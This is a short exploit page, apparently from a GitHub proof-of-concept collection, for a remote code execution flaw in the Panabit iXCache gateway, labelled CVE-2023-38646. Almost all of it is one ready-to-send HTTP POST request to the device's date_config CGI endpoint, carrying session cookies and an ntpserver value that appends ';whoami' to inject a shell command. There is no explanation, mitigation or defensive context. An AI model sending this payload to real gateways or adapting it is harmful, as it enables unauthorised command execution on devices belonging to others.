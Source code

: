 # Panabit iXCache网关RCE漏洞CVE-2023-38646

## Panabit iXCache网关RCE漏洞CVE-2023-38646
```
POST /cgi-bin/Maintain/date_config HTTP/1.1
Host: 127.0.0.1:8443
Cookie: pauser_9667402_260=paonline_admin_44432_9663; pauser_9661348_661=paonline_admin_61912_96631
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 107

ntpserver=0.0.0.0%3Bwhoami&year=2000&month=08&day=15&hour=11&minute=34&second=53&ifname=fxp1



```


